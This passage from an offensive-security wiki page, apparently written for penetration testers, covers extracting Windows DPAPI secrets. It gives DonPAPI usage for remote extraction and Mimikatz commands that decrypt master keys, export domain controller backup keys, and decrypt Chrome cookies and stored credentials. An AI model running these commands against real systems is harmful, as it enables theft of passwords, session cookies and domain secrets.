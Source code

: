 [DonPAPI](https://github.com/login-securite/DonPAPI) (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports [pass-the-hash](broken-reference), [pass-the-ticket](broken-reference) and so on.

```bash
DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to extract dpapi with [`lsadump::backupkeys`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/backupkeys), decrypt with [`dpapi::chrome`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/chrome) and [`dpapi::cred`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/cred) or use specific master keys with [`dpapi::masterkey`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey) and [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi) , using specified passwords or given sufficient privileges.

```bash
# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract and decrypt all master keys
sekurlsa::dpapi

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

# Decrypt Chrome data
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

# Decrypt DPAPI-protected data using a master key
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords" %}

{% embed url="https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf" %}
